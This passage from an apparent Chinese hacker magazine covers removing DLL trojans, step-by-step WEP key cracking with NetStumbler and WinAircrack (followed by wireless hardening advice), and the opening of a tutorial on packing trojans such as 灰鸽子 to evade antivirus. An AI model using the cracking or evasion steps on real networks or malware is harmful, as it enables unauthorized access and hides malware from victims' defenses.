日后如发现异常但用传统的方法查不出问题时，则要考虑是不是系统中已经潜入 DLL 木马。这时我们用同样的命令将“system32”下的 DLL 文件记录到“dllback1.txt”文件中，然后执行命令 `fc dllback.txt dllback1.txt > diff.txt`，如图20。使用 FC 命令比较前后两次的 DLL 文件，并将结果输出到“diff.txt”中，如图21。

这样我们就能发现一些多出来的 DLL 文件，然后通过查看创建时间、版本、是否经过压缩等，就能够比较容易地判断出是不是已经被 DLL 木马光顾了。没有是最好，如果有的话也不要直接删除掉，我们可以先把它移到回收站里；若系统没有异常反应，再将之彻底删除或者提交给杀毒软件公司。

#### 三、通过文件保护查找 DLL 木马

另外，由于 DLL 木马病毒会替换系统中的 DLL 文件，或者加载到 EXE 文件中，对系统文件进行修改等。如果我们能备份系统文件的信息，就可以有效地查找到被更改过的文件，从而防范此类木马病毒。在这里还是可以利用上面提到的审计工具“Wininterrogate”。

在界面“Interrogation Type”组中勾选“File System”项，勾选右边的“Get file Version Info”“Get Hash Digest”和“Display Disk Information”项，并选择相应的“MD5”或“SHA-1”值，如图22。并在下方的“Starting Directory”中指定文件目录。完毕后点击“Save as”按钮，即可将指定目录中所有文件的创建时间、磁盘属性、文件的 MD5 值或哈希值进行保存。由于每个文件只能对应一个唯一的 MD5 值或哈希值，所以当文件被改变后，其 MD5 值或哈希值也会相应地发生改变。因此可以通过保存这两个文件值，在查找被 DLL 木马更改过的 DLL 文件时进行对比，从而更快更准确地得到结果。

### 第三部分：DLL 木马清除全攻略

所谓道高一尺，魔高一丈，DLL 进程插入型病毒让杀毒软件和防火墙很受伤——无法查找到木马进程，无法删除病毒文件。虽然 DLL 木马如此难缠恐怖，但是我们依然可以清除 DLL 注入式木马，下面就向大家介绍一下清除 DLL 木马的一般步骤和各种方法。

#### 步骤一：确定 DLL 木马病毒文件

在清除 DLL 木马之前，首先我们要利用上面备份的 DLL 文件列表，来确定系统中新添加的 DLL 木马病毒文件路径，找到究竟哪一个文件是 DLL 木马病毒文件。当然也可以利用杀毒软件来扫描系统，一般情况下，更新了病毒库的杀毒软件还是可以方便地找到 DLL 病毒文件的，只是不能主动清除掉而已。例如没有加壳的“上兴远控”木马还是会被江民杀毒软件2006所发现。然而并不是所有的用户都非常熟悉 DLL 文件调用情况，也不一定事先就已备份 DLL 文件列表，也可能杀毒软件无法查找出木马 DLL 文件……那么到底该如何从列表中查找出可疑的木马模块呢？

我经常使用的工具是 ECQ-PS（超级进程王）。ECQ-PS 超级进程王是一款非常强劲的进程管理软件，能完美地查杀各种进程插入型木马，并且最重要的是可以查看进程调用模块，扫描可疑的模块并将其清除掉。运行软件后在中间的列表窗口中可以看到当前系统中的所有进程，如图23。

双击其中的某个进程后，可以在下面窗口的“所有模块”标签中，列表显示该进程调用的所有模块信息。在信息中包括模块名称、版本和厂商，以及创建时间等。其中的厂商和创建时间信息比较重要，如果是一个系统关键进程如“svchost.exe”，结果调用的却是一个不知名厂商的模块，那该模块必定是有问题的。另外如果厂商虽然是微软的，但创建时间却与其它 DLL 模块时间不同，那么也可能是 DLL 木马。

是否是 DLL 木马，可以使用软件的自动扫描可疑 DLL 模块功能。

点击“可疑模块”标签，软件会自动扫描模块中的可疑文件，并在列表中显示出来。另外在窗口右边点击“导入库”标签，在列表中可以看到当前进程中调用的所有 DLL 库及调用函数。对列表中的可疑 DLL 模块，可看到此模块的进程，如图24。一般每一个 DLL 文件都有多个进程会调用，如果调用此 DLL 文件的仅仅是这一个进程，也可能是 DLL 木马。点击“强进删除”按钮，即可将 DLL 木马从进程中删除掉。

#### 步骤二：揪出木马藏身之所

虽然木马没有自己的进程，但是有一个宿主进程，只要结束宿主进程、停止 DLL 文件的调用，就可以删除 DLL 文件清除木马。因此清除 DLL 木马的第一步，必须找到木马注入的宿主进程。因为刚才我们在制作木马的过程中，已经知道 DLL 文件是注入到“explorer.exe”进程中的，不过对于未知的 DLL 注入木马，可能就需要查找一番了。

##### 1. 通过端口查出木马进程

首先打开 Windows 任务管理器，查看系统中运行了哪些进程。虽然任务管理器的功能不是很强，但对于普通木马多少还是可以看出些端倪来的。我们也可以使用其它的进程查看工具，比如 IceSword、Process Explorer 等。

IceSword 的功能很强，可以查看并结束各种隐藏的木马后门进程，采用了特殊技术可以显示经过 Rootkit 隐藏的进程；而它表示系统进程进行检测是最适合不过的了。运行 IceSword 后，点击“查看”中的“进程”项，如果在右边列表窗口中没有看到任何可疑的进程，也没有显示出经过 Rootkit 隐藏的进程，可以点击查看“端口”项。在右边列表窗口中可以看到当前所有打开的端口，在“进程程序名”栏可以看到打开这个端口的进程。如果发现系统打开了一些未知的奇怪端口，而打开这个端口的又是“explorer.exe”或“svchost.exe”之类的常见系统进程，如图25，那么就可以肯定这个进程是木马 DLL 文件的宿主进程。

##### 2. 直接查找木马 DLL 文件

如果从端口中查看不出什么问题来，那么可通过一些查看进程调用 DLL 文件的进程管理工具，找到该文件的宿主进程。此类工具很多，比如大名鼎鼎的 IceSword。运行 IceSword 后，点击左侧边栏“查看”→“进程”，在窗口中可看到所有进程列表。右键点击某进程后，在弹出菜单中选择“模块信息”命令，即可看到该进程调用的所有 DLL 文件，如图26。DLL 注入式木马通常是将 DLL 文件加载到 explorer.exe、svchost.exe、winlogon.exe、iexplore.exe 等系统进程中的。因此在查找 DLL 宿主文件时，可以关闭其它无关程序，然后依次检查这几个进程中的 DLL 文件。

##### 3. 快速定位木马宿主

不过一个一个地检查系统进程，确实有些麻烦，如何才能快速定位木马的宿主进程呢？可以使用一个叫做“procexp”的进程管理工具。运行 procexp 后，在程序界面中间显示的是树状进程关系列表，下方是每个进程的详细信息。点击菜单“Find”→“Find DLL”命令，打开 DLL 文件查找对话框，在“DLL Substring”中输入要查找的关键词，这里输入刚才杀毒软件扫描出的 DLL 文件名“rejoice.dll”。然后点击“Search”按钮，在下方列表中就可以看到该 DLL 文件是被哪个进程调用的了，如图27。

#### 步骤三：清除 DLL 注入木马

查找到 DLL 木马文件，并定位了注入的宿主进程，就可以开始清除病毒了。清除的实质很简单，主要就是删除掉 DLL 木马文件，禁止掉 DLL 木马的调用，不过在实施的时候却不是那么简单。

##### 方法一：普通进程 DLL 注入木马的清除

有许多 DLL 木马是注入到“iexplore.exe”和“explorer.exe”这两个进程中的，对于注入这类普通进程的 DLL 木马是很好清除掉的。

如果 DLL 文件是注入到“iexplore.exe”进程中，此进程就是 IE 浏览器进程，那么可以关掉所有 IE 窗口和相关程序，然后直接找到 DLL 文件进行删除就可以了。如果是注入到“explorer.exe”进程中的，那么就略显麻烦一些，因为此进程是用于显示桌面和资源管理器的。当通过任务管理器结束掉“explorer.exe”进程时，桌面无法看到，此时桌面上所有图标消失掉，“我的电脑”“网上邻居”等所有图标都不见了，也无法打开资源管理器找到木马文件进行删除了。怎么办呢？这时候可以在任务管理器中点击菜单“文件”→“新任务运行”，打开创建新任务对话框，点击“浏览”按钮，通过浏览对话框就可以打开 DLL 文件所在路径，如图28。然后选择“文件类型”为“所有文件”，即可显示并删除 DLL 文件了。

##### 方法二：使用 IceSword 卸载 DLL 文件调用

如果木马是插入了“svchost.exe”之类的关键进程中，就不能指望进程管理器来结束进程了，可能需要一些附加工具卸载掉某个 DLL 文件的调用。IceSword 的功能十分强大，可以利用它卸载掉已经插入到正在运行的系统进程中的 DLL 文件。在 IceSword 的进程列表显示窗口中，右键点击 DLL 木马宿主进程，选择弹出菜单中的“模块信息”命令打开 DLL 模块列表对话窗口，如图29。选择可疑模块后，点击“卸载”按钮即可将 DLL 木马从进程中删除掉。如果提示不能卸载的话，可以点击“强行解除”按钮，从进程中强行删除该 DLL 调用。这时候就可以从“模块文件名”栏中得到 DLL 文件路径，然后到文件夹中将 DLL 木马彻底删除掉。

##### 方法三：SSM 终结所有 DLL 木马

许多木马都是注入到系统里关键进程中的，比如“svchost.exe”“smss.exe”“winlogon.exe”进程，这些进程使用普通方式无法结束。使用特殊工具结束掉进程或卸载掉进程中的 DLL 文件后，却又很可能造成系统崩溃、无法正常运行等。例如一款著名木马 PCShare 是注入“winlogon.exe”进程中的，该进程掌握 Windows 登录，在使用 IceSword 卸载时系统立刻异常重启，根本来不及清除掉 DLL 文件，在重启后 DLL 木马又被再次加载。对于这类 DLL 木马，必须在进程运行之前阻止 DLL 文件的加载。阻止 DLL 文件加载要用到一个强大的安全工具“System Safety Monitor”（简称 SSM）。

SSM 是一款俄罗斯出品的系统监控软件，通过监视系统特定文件及应用程序，达到保护系统安全的目的。这款软件功能非常强大，可以阻止防火墙和杀毒软件更好地保护系统安全。运行 SSM，在程序界面中选择“规则”选项卡，右键点击中间规则列表空白处，选择“新增”命令。弹出文件浏览窗，选择浏览文件类型为“DLL files”，在其中选择指定文件路径“C:\Windows\system32\rejoice.dll”。确定后，即可将“rejoice.dll”文件添加到规则列表中，然后在界面下方的“规则”下拉列表中选择“阻止[F2]”，如图30。

添加规则设置完毕后，点击“应用设置”按钮，然后重启系统。在重启系统前要检查 SSM 的设置，保证 SSM 随系统启动而加载运行。当系统重启时，在运行“explorer.exe”进程时，会自动阻止该进程调用“rejoice.dll”木马文件。由于木马文件没有任何程序使用，直接删除就可以了。

此外，我们也可以利用其它工具来清除 DLL 木马后门，例如 Tiny Personal Firewall 2005（TPF）防火墙的“blacklist”禁止运行功能等。清除原理都是一样的：总之是在木马 DLL 文件插入进程调用前，阻止该 DLL 文件的加载，从而达到结束木马进程并删除木马文件的目的。

##### 方法四：通过系统权限法来清除 DLL 木马

在 Windows 系统中，NTFS 分区格式拥有强大的文件限制设置功能，可以设置某个文件是否能被程序调用访问等。通过这个功能，我们一样可以禁止木马调用相应的 DLL 文件，从而彻底除掉 DLL 木马文件。双击打开“我的电脑”，点击菜单命令“工具”→“文件夹选项”→“查看”，在高级设置选项下去掉“简单文件共享”的选择。然后定位到无法删除的 DLL 木马文件上，右键点击该文件，在弹出菜单中选择“属性”命令，单击“高级”按钮，在弹出的窗口中去掉“从父项继承那些可以应用到子对象的权限项目，包括那些在此明确定义的项目”使其不被选中，再在弹出的窗口中单击“删除”，再次单击“确定”。这样就没有任何用户可以访问和调用该 DLL 木马文件了。重新启动系统，就可以删除掉该 DLL 文件了。

##### 方法五：启动前杀毒

SSM 策略和系统权限法的原理，都是在禁止 DLL 文件的加载。其实在 Windows 系统启动前，任何 DLL 文件都是不会加载调用的，我们可以启动前杀掉病毒。

如果杀毒软件可以查出 DLL 病毒文件，那么可以使用杀毒软件自带的启动前杀毒功能。例如在江民杀毒软件 2006 中有一个 BOOTSCAN 功能，我们就以江民杀毒软件查杀“上兴远控”木马为例介绍。该功能默认下是没有启用的，打开江民杀毒软件的设置对话框，选择“扫描选项”选项卡，勾选“其它动作”中的“BOOTSCAN”项即可，如图32。

另外，如果 DLL 木马文件不是在默认的“c:\windows\system32”目录下，可以点击“扫描路径设置”按钮，指定 DLL 木马文件所在路径。

启用该功能后，就可以在进入 Windows 前杀毒，自动删除掉“rejoice.dll”文件了，如图33。

如果是杀毒软件不能报警的 DLL 木马文件，也可以用系统引导盘进入 DOS 模式中直接删除木马文件，这样更简单。

#### 步骤四：恢复系统

将 DLL 文件删除后，还要到注册表中找到所有与此 DLL 木马文件关联的项目，尤其是“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run”等几个启动项目中要重点清除。另外，DLL 木马不仅仅局限存在于 Run、Runonce 这些众所周知的子键，而有可能存在于更多地方。例如对于后门类 DLL 来说，“KnownDLLs”子键就是再好不过的藏身之处。在注册表的“HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Session Manager\KnownDLLs”子键下，如图34，存放着一些已知 DLL 的默认路径。

假设 DLL 木马修改或增加了某个键值，那么木马 DLL 就可以无声无息地在进程加载知名 DLL 的时候，取代原本的 DLL 文件进入进程。

### 第四部分：清除 DLL 注入木马的总结

总的来说，DLL 木马后门的种类很多，木马选择注入的系统进程也不尽相同。清除 DLL 木马的总体思路是这样的：在碰到 DLL 注入类木马时，我们可以首先考虑用 procexp 之类的工具查找出 DLL 文件的宿主进程。找到宿主进程后，如果是注入到普通可结束的进程中，可以直接将宿主进程终止后删除 DLL 木马文件即可。

如果 DLL 文件是注入到系统关键进程中的话，可以考虑用 IceSword 卸载 DLL 文件。如若失败，那么直接用 SSM 建立规则，或通过系统权限法阻止 DLL 文件加载就可以了。

DLL 注入型木马并不会感染其它文件，只要结束木马进程并删除掉病毒木马文件，木马就无法死灰复燃了。最后剩下的工作就是消除掉木马在注册表和其它启动文件中留下的项目。

（本文所涉及的软件：上兴远控2006、NameLess BackDoor、NC、PS、Wininterrogate V0.1.7、ECQ-PS、IceSword、Process Explorer、procexp、System Safety Monitor，光盘已收录）

> 【X小编语】DLL 木马作为目前常见的一种木马，其独特的置入方式及隐蔽性，真的令许多朋友伤脑筋。别说是我们，即使是国内外的杀病毒软件厂商也更是大感头疼。本文以上兴远控2006和 NameLess BackDoor 为例，详细介绍了 DLL 木马的配置及使用，更是重点介绍了如何查找及清除 DLL 木马。但愿各位读者看了本文后能有所收获，可以让自己的电脑更安全。

## 黑客的另一片天堂

### ——无线网络大攻防

午夜的猫[TAT]


通常大家入侵最多的目标就是网站，以及一些小型服务器之类的，好像没有多少人对于无线网络的入侵以及安全有所认识吧？这期我们就来介绍介绍关于无线网络的入侵方法以及要注意防范的一些问题。看完这期之后，希望大家对于无线网络安全以及攻击能有更加深入的了解。

在介绍如何入侵无线网络之前，首先跟大家回顾一下一些通常我们都会见到、听说过的网络设备。因为这些与无线网络有一定相关的联系，当然无线网络也会使用到，而且使用率很高噢！通常我们所使用的网络设备会有：路由器、调制解调器、交换机等等。

要解释路由器的概念，首先得知道什么是路由。所谓“路由”，是指把数据从一个地方传送到另一个地方的行为和动作。而路由器，正是执行这种行为动作的机器，它的英文名称为 Router，是一种连接多个网络或网段的网络设备，它能将不同网络或网段之间的数据信息进行“翻译”，以使它们能够相互“读懂”对方的数据，从而构成一个更大的网络。

而我们常说的入侵路由器，本质上是入侵家用的 Modem 设备。调制解调器（Modem）作为终端系统和通信系统之间信号转换的设备，是广域网中必不可少的设备之一。因为我们所使用的 ADSL MODEM 大部分都存在着路由功能，厂商为了用户在使用 MODEM 的时候可以减少大量操作以及配置，所以都会自配一些适合家庭用户的路由功能，例如：NAT、PPPoE 等等功能。

作为一个入侵者，如果他所针对的并非是目标的服务器，而是针对其线路上的“连通”，导致其服务瘫痪或者导致其他用户不能够正常访问互联网的话，大多数会采用 DDoS 或者更有选择性的攻击。无线网络的攻击就是利用嗅探、破解无线网络所使用的加密钥匙，以及局域网相同的攻击形式。接下来我们就向大家介绍无线网络的入侵以及安全配置。

### 一、入侵无线网络

#### 1. 什么是无线网络？

无线网络（Wi-Fi）是目前最热门的话题之一，它是一种局域网的网络架构，适用于办公室以及家庭用户。Wi-Fi（Wireless Fidelity）与蓝牙技术一样，同属于在办公室和家庭中使用的短距离无线技术。该技术使用的是 2.4GHz 附近的频段，该频段目前尚属免许可的无线频段。目前可使用的标准有两个，分别是 IEEE 802.11a 和 IEEE 802.11b。

越来越多的 AP 热点（访问点）都提供免费或者收费的无线网络服务，而且现在大多数热点都存在着一个普遍的问题：因为人流量以及人手的问题，导致很多热点所提供的服务都很随意。只要你所携带的手提电脑能够接收并连接无线网络，就可以无需任何验证方式进行使用。

在疏于管理的模式下，造成了很多安全问题。理论上，无线电波范围内的任何一台电脑都可以监听并登录无线网络。如果这些热点的安全措施不够严密，则完全有可能被窃听、浏览甚至操作电子邮件。进一步说，如果入侵者控制了 AP，修改 AP 内的 DNS 设置并结合热点网络进行钓鱼式攻击，其影响会更加广泛。

用户群体的安全意识薄弱，再加上对无线网络安全不够重视，导致可利用风险较高。企业环境中，由于终端数量和人员流动，接入用户数量与权限分配更难控制。当企业内部人员私接入网络后进行嗅探等攻击，可能导致企业内部资料泄露并造成较大损失。

#### 2. 无线网络所使用的加密方式以及介绍

对于无线 AP 的入侵其实很简单：可以先利用无线网络嗅探接入一个无线网络，再寻找其 AP，根据默认密码或者利用 Web 页面安全口令工具破解 AP 的登录密码以及账号。无线 AP（Access Point）是一个包含很广的名称，它不仅包含单纯无线接入点，也包括无线网关、无线网桥等类别。

如果无线 AP 有 WEP 加密，访问点（AP）和连接到该访问点的所有工作站必须使用同样的共享密钥。由于 WEP 的设计缺陷和实现问题，在使用 WEP 的情况下会出现若干安全隐患。

- RC4 算法本身就有一个小缺陷，可利用该缺陷破解密钥。  
- WEP 标准允许 IV 重复使用（平均大约每 5 小时重复一次），重复使用 IV 会使攻击者更容易进行分析。  
- WEP 标准不提供自动修改密钥的方法，只能手动对访问点和工作站重置密钥，实际中很少有人频繁更换。  
- 早期 WEP 实现仅提供 40 位加密；即使是 128 位 WEP，扣除 IV 后的有效密钥长度也有限，整体安全性仍不足，谈不上无懈可击。

#### 3. Wi-Fi（无线网络）攻击

##### （1）针对无线网络的信息侦测工具介绍以及对于攻击目标的踩点

要针对目标进行入侵的话，我们必须要捕捉到目标的 AP 覆盖区以及信号的频道，并且这些得到的信息，取决于我们所使用的软件是否能够很好地帮助我们。我们可以利用 NetStumbler、Apsniff、AiroPeek 等等软件进行测绘。根据软件所返回的信息去判断我们攻击目标的类别。本文会介绍 NetStumbler 的使用，而对于 Apsniff 以及 AiroPeek 仅作简略介绍。

ApSniff 是一款绿色软件，下载之后可以直接使用，拥有 NetStumbler 大部分功能，较突出的是支持 14 个频道（Channel），而 NetStumbler 只支持 12 个。Apsniff 对国内环境较友好，但主要显示无线 AP 的 MAC 地址、SSID、Channel 及是否加密等信息。


AiroPeek 是 Wildpacket 公司开发的无线网络分析器，功能强大，支持现有多数 WLAN 分析需求，包括实时分析、响应时间分析、802.11 协议解码、接入点信号强弱显示、告警与报表等。该软件为商业软件，且对网卡芯片支持有限。


NetStumbler 是著名的免费无线接入点探测工具，支持 PCMCIA 无线网卡，并支持带 GPS 的无线网卡功能，但仅限 Windows 平台。

与 AiroPeek 不同，该软件主要针对 Scan 及信号侦测，不做复杂分布式审计报告。Apsniff 和 NetStumbler 均可在启动后自动搜索无线网络信号，且支持较多网卡芯片。


介绍完常用工具后可以看到，无线网络的使用与维护并不复杂。若希望深入研究，可参考相关书籍；Linux 用户可尝试开源工具 Kismet。

#### 对于攻击目标的踩点

启动 NetStumbler 后，程序会根据本地无线网卡自动搜索。若主机没有无线网卡，会提示 “No Wireless Adapter Found”。若网卡有 GPS 功能，可在 “View”→“Options”→“General” 设置 “Auto adjust using GPS”。


“Scan Speed” 用于设置对 AP 的扫描速度，通常分为五档；在无 GPS 或不同 GPS 速度条件下，其扫描间隔不同。

| Scan interval (seconds) | Slow | ... | Fast |
|---|---:|---:|---:|
| Without GPS speed | 1.50 | ... | 0.50 |
| GPS: Stationary | 3.00 | ... | 1.00 |
| GPS: 25 mph / 40 km/h | 2.74 | ... | 0.57 |
| GPS: 50 mph / 80 km/h | 2.31 | ... | 0.25 |
| GPS: 75 mph / 120 km/h | 1.55 | ... | 0.25 |
| GPS: 100 mph / 160 km/h | 1.16 | ... | 0.25 |

设置完成后即可开始自动扫描目标，程序会确认客户端所在 AP 覆盖区域，并通过 AP 信号参数进行数据搜集。


通过图中的标明内容可确定目标 SSID、设备类型及 Encryption 属性（如“已加密”）等关键信息，以确定目标的加密算法是 WEP。

> **注意：**NetStumbler 对使用加密算法的 STA（802.11 无线站点）都会在 Encryption 上标识为 WEP 加密模式。

还有一点大家要注意喔，NetStumbler 在 War driving 的时候是一个非常好的帮手。War driving：也称为接入点映射，这是一种在驾车或者步行方式围绕企业或住所邻里时扫描无线网络的活动。要想进行驾驶攻击，你就要具备一辆车、一台电脑（膝上型电脑）、一个工作在混杂模式下的无线以太网网卡，还有一个装在车顶部或车内的天线……


按照信号的强弱，我们就可以知道目标的信号覆盖区大概是在哪个位置。根据信号的强弱，我们可以覆盖信号区从而架设虚假 AP 作为攻击之用。

##### （2）针对目标进行嗅探及 WinAircrack 的使用介绍

当我们得知目标的相关信息之后，就可以利用特定的软件去进行破解工作了。当初 WEP 被传出有缺陷的时候，国外就开始利用 WinAircrack 进行 WEP 以及 WPA 的破解了。而 WinAircrack 其实是一组多功能的破解程序组，不光可以破解相关的密码算法，而且还可以利用自身的功能去捕捉数据帧。

以下就是关于这个工具组的软件功能介绍：

```text
aircrack.exe      Win32 下使用的主程序
aiwdecap.exe      WEP/WPA 解码程序
airodump.exe      数据帧捕捉程序
updater.exe       Win32 下升级程序
WinAirocrack.exe  Win32 下的图形前端
wzcook.exe        本地无线网卡缓存中的 WEPKEY 读取程序
```

而我们就是利用捕捉当前 AP 传输的数据帧进行 IV（初始化向量）暴力破解，所以我们不必要完全使用所有的工具组，只要利用 airodump（捕捉数据帧）与主程序就可以了。当我们利用 airodump 进行数据帧捕捉的时候，界面会出现很多的选择项目（图8）。


程序会自动检测本地存在的所有无线网卡型号，按照所检测到的网卡列表选择适当的网卡进行捕捉数据帧。当我们在选择“Network Interface index number”的时候，必须要清楚自身使用的无线网卡驱动编号，避免驱动无法正常使用。然后是“Network interface type”（选择当前所选无线网卡的类型）……再到“Channel(s)”输入要捕捉的信号所处的频道，以及“Output filename prefix”（捕捉数据帧后所保存的文件名）等选项。

> **注意：**有些资料在破解 WEP 的时候注明不需要无线网卡芯片支持，只要支持 802.11b 就可以；但实际测试并非如此，程序对网卡类型仍有要求。

| 厂家 | 型号 | 类型 | 芯片 | 备注 |
|---|---|---|---|---|
| Abocom | 802.11b CWB1000 | CF | Prism2/2.5/3 | |
| Abocom | 802.11b WUB1500 | USB | Atmel | |
| Abocom | 802.11b WMP2000 | mini-PCI | ADMtek | |
| Abocom | 802.11b WB1500 | PCMCIA | Prism2/2.5/3 | High power |
| Abocom | 802.11b WB1500S | PCMCIA | Prism2/2.5/3 | MMCX ext. antenna connectors |
| Abocom | 802.11b WB2500 | Cardbus | Realtek | |

（表格为页面中可见部分）

因为捕捉数据帧的过程会很费时，所以在此大家可以喝喝茶……等待程序所显示的“Packets”总数约为 300000 时，就可以开始开心地去破解我们的 WEP Key 了。

根据实验的教训，最好找个很多人使用 Wi-Fi 的热点，然后进行 WEP Key 的破解测试。因为如果你只是针对单一个 AP，或者只是你单一用户进行连接的话，这样子起码要等上几个或者十几个小时，方可使得所捕捉的数据帧满足破解条件（图9）。


#### （3）使用 WinAircrack 对数据帧捕捉文件进行 WEP Key 破解（图10）


完成了捕捉数据帧的步骤之后，接下来就是破解所捕捉到的数据帧了。利用主程序把刚刚在 dump 捕捉到的数据 Cap 文件导入，单击图示部分按钮，选择刚刚捕捉到的 Cap 文件，然后通过点击右方的 “Wep” 按钮切换主界面至 WEP 破解选项（图11）。


记住我们要选择 “Key Size” 为 64 位加密。因为我们没有办法估计是否是以 64 位数加密的，所以如果不是 64 位数的话，我们就要重新选择选项。最后单击主界面右下方的 “Aircrack the key...” 按钮，这个时候程序会弹出一个内嵌在 cmd.exe 下运行的进程对话框，整个破解过程就会开始进行。因为我们所捕捉的数据帧数量足够，所以不到一分钟的工夫，我们所需要破解的 WEP Key 就已经成功破解完毕了（图12）。


利用刚刚破解成功的 WEP Key，在无线网卡的连接参数设置为：SSID：*****；频道：6；WEP Key：1111122222（64位），这样子我们就可以利用该 AP 进行无线上网了，你可以在主机架设非法 AP，或者是利用嗅探器嗅探同网段主机的信息喔！千万不要做违法的事情啊！

### 三、Wi-Fi（无线网络）防御部分

#### 1、基于物理层的保护

##### （1）缩窄发射天线覆盖范围

攻击者在攻击前必须搜索到发射源的广播信标，也就是说必须进入发射源的覆盖范围，这样子才可以利用工具进行扫描得出有关的敏感信息。而作为防护的一方，我们可以通过设置天线的发射功率尽量控制发射源的覆盖范围，从而达到降低风险的目的（图13）。


我们把 AP 的天线功率设置为 20%，使它覆盖区仅仅局限于我们所限制的区域。当 WarDriving 攻击者不停地在覆盖范围外进行“踩点”时，就无法得到关于该 AP 的信号。

但是这种方法只能防御一些水平不高的无线网络攻击者。当我们将自身的天线发射覆盖区域缩小的情况下，攻击者可以利用自身架设的天线，将覆盖区加大范围，从而更有效地覆盖我们的所在位置，这样子就可以搭建无形的桥梁来进行攻击。

##### （2）使用定向天线

定向天线利用物理信号的传播特性实现覆盖范围的方向、距离定位，从而达到物理位置的访问控制机制，主要的产品类型有八木定向天线等。如果我们在经济情况允许下，可以考虑使用八木天线，虽然价格是一个必须考虑的因素。或者我们可以自行设计天线，做一个无线 DIY 者。

#### 2、数据链路层保护

##### （1）高位 WEP Key

WEP 在 802.11b 中负责访问控制与通信数据加密两个过程，但由于 WEP 算法中初始向量出现严重漏洞，导致攻击者能在捕捉到足够加密数据包的前提下破解 WEP Key，所以我们推荐使用 128 位的 WEP Key（24 位初始向量），增大攻击者的破解难度。

还有一点需要注意的是，通常我们在家庭使用 AP 的话，都会贪图一时方便，将加密部分选择 OSK（Open System Key），这样子就会很容易导致整个网络被入侵的危险性加大。所以不管你有多么不情愿，也希望你使用 WEP Key 加密通信，而且不要使用弱密码。就算你有再高位数加密，弱密码始终都是没有防护作用的。

##### （2）禁用 SSID 广播

广播信标在发射源以默认 100 毫秒发送一次的速度在覆盖区内广播，默认情况下它的头内容包括该 WLAN 的 SSID（也称 ESSID），攻击者可以通过接收广播信标并解码内容得到该 WLAN 的 SSID。

##### （3）MAC 地址过滤

MAC 地址过滤主要是通过 AP 的桥接功能对接入设备的 MAC 地址进行访问控制，实现合法 BSSID 地址正常访问，非法 BSSID 地址被隔离。常见的实施方式是，首先在 AP 上登记合法 BSSID 的 WNIC，然后设置非法 BSSID 不能访问的规则，达到 MAC 地址过滤的目的。

##### （4）非法 AP 鉴别

非法 AP（Rogue AP）是 WLAN 流行后的又一安全隐患，其原理是在某合法 AP 的覆盖区内搭建一个不合法的 AP，其危害主要有两种：绕过逻辑访问控制的物理制约。由于无线接入点的物理体积小，不容易被发现，且游动性强（类似反插设备），因此很容易被用户通过物理方式绕过网络的逻辑访问控制。防御此类型攻击的手法是对重要设备实施物理隔离控制（图14）。


通过建立与合法 AP 相同的 SSID（或同时使用相同的频道）来迷惑无线接入者，实现钓鱼攻击（Phishing）；待接入者登录后，使用中间人攻击得到使用者的通信数据。杜绝该类型手法主要是通过合法 AP 与非法 AP 的 BSSID（BSSID 等于无线网络接口的 MAC 地址）来辨别。这个攻击手法就好像前面所介绍的缩小信号覆盖范围一样：当我们缩小信号范围的时候，攻击者是可以利用自身条件令天线达到较大的覆盖范围，从而跨越我们的范围进行攻击的（图15）。


#### 3. 网络层保护

##### （1）禁用 DHCP

若在 WLAN 中启用 DHCP 协议，当攻击者登录 WLAN（接入无线网络）后就能通过 DHCP 得到合法的 IP 地址并直接使用网络，因此禁用 DHCP 是一个增加攻击者渗透难度的绝佳方式（图16）。


##### （2）IP 地址范围缩窄

缩窄 IP 地址的方式主要是通过网络号向主机号借位的方式进行。打个比方：一个 192.168.1.1/24 的网段就有 254 台机器（主机号 1~254），但若通过网络号向主机号借位，将 /24 借至 /30 的话，192.168.1.0/30（子网掩码 255.255.255.252）就只剩下两台主机（192.168.1.1~2）了。通过对主机数量的定额缩减与分配，可以使攻击者无法及时得到合法的网络层地址，增加攻击者渗透的难度。

根据以上的设置，我们就可以较为安全地使用无线网络了。安全是没有绝对的，对于 WLAN 来说，就算我们怎么缩小信号的覆盖范围，也有可能会被入侵者扩大自身的信号覆盖区从而进行入侵。

本文针对无线网络设备所带来的攻击进行分析，以及针对攻击进行的一系列安全防护介绍。感谢 alex 对于 Wi-Fi 网络的配置以及 WEP key 的破解，谢谢。

（文章中涉及到的工具 NetStumbler、Apsniff、AiroPeek 已经收录于光盘中）

> 小编语：无线局域网在欧美等发达国家是一种非常流行也是很普及的新技术，但在国内，其普及程度还远不如国外。对于我们绝大多数读者来说，无线局域网攻防是一种陌生而又全新的领域……

## 对“干渡助你隐藏IP”的补充

> 看完了 2006 年 7 期的那篇“干渡助你隐藏IP”后，我就找了个干渡工具测试……文章讨论了网页显示 IP、代理与出口服务器带宽限制等问题，结论是该类工具并不能完全隐藏 IP。

> 文章摘要：  
- 文章难度：★★★  
- 文章涉及技术：特征码的讲解、加壳免杀、入口点修改、文件捆绑修改免杀法、加花指令免杀法、变化入口地址免杀法、OD 免杀法等。

## 让杀毒软件变“白痴”——菜鸟的木马免杀大法

姜超

自从病毒（木马）与杀病毒软件诞生的那天起，它们之间就成了你死我活的冤家对头。而对于大多数水平不高的菜鸟来讲，从网上千辛万苦找到的木马或者后门，几乎都被残忍地列在了杀毒软件的“黑”名单里，这该如何是好呀？菜鸟们别急，俗话说得好：“上有政策，下有对策”，今天我就给大家介绍几种目前比较流行的木马免杀大法，好让那些该死的杀病毒软件全变成“白痴”！

就以目前来讲，最常使用的有加生僻壳免杀法、入口点 +1 免杀法、加花指令免杀法、变化入口地址免杀法、特征码修改免杀法和 OD 一半定位法等六种。我的测试环境为 Windows XP 系统，木马/后门以不加壳的 2006 版灰鸽子、阿拉 QQ 大盗、winshell 为例，而杀病毒软件以瑞星最新升级版本为例。

### 一、加生僻壳免杀法

这是最简单也是最常用的制作免杀木马的一个方法了，主要是使用现成的加壳工具来对后门和木马加一层伪装壳，来达到免杀的目的，比如目前比较流行的 ASPack、UPX 等加壳工具。不过，麻烦的问题也随之而来，这些比较有名的加壳工具也都被各杀毒软件列入其内，因此，我们最好找些不为人知的加壳工具。本文使用的就是猛壳 svkp 1.43。

- 1. 首先生成一个灰鸽子的服务端 Server.exe，使用瑞星杀毒软件对其进行查杀，结果如图1，很明显，Server.exe 很轻松地就被瑞星给查杀了。  


